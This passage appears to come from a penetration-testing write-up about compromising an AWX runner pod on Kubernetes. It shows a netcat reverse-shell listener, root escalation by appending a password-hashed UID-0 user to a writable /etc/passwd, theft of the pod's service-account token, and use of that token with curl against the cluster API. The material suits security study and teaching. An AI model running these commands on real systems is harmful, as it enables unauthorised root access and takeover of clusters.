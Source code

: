 Running the Repo sync, we get our shell from AWX runner pod:

```
$ nc -lnv 4444
bash-4.4$ id
id
uid=1000(runner) gid=0(root) groups=0(root)
```

We also notice that `/etc/passwd` is writable by the root group:

```
bash-4.4$ ls -lah /etc/passwd
ls -lah /etc/passwd
-rw-rw-r-- 1 root root 75 Jul 15 16:21 /etc/passwd
```

We can exploit it to be root inside the AWX runner container:

```
bash-4.4$ echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/root:/bin/bash' >> /etc/passwd
bash-4.4$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
runner:x:1000:0:,,,:/home/runner:/bin/bash
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/root:/bin/bash
bash-4.4$ su new
su new
Password: 123
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty; pty.spawn("/bin/bash")'
[root@monkey-business-58c9c77bb5-wjrcp home]# id
id
uid=0(root) gid=0(root) groups=0(root)
```

That is not particularly helpful, let’s try harder.
Since we are running on K8S, we can check if the pod has access to a K8S service account:

```
[root@monkey-business-58c9c77bb5-wjrcp tmp]# cat /run/secrets/kubernetes.io/serviceaccount/token ; echo
```

Nice!

We can either interact with the Kubernetes Control Plane API with `curl`, or upload the `kubectl` binary, corresponding to the server version. Let’s start with `curl`:

```
bash-4.4$ export toktok=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
bash-4.4$ curl -kH "Authorization: Bearer $toktok" https://10.43.0.1/api/v1/namespaces/awx/pods ; echo
```

This gives us the list of the pods running in the `awx` namespace.
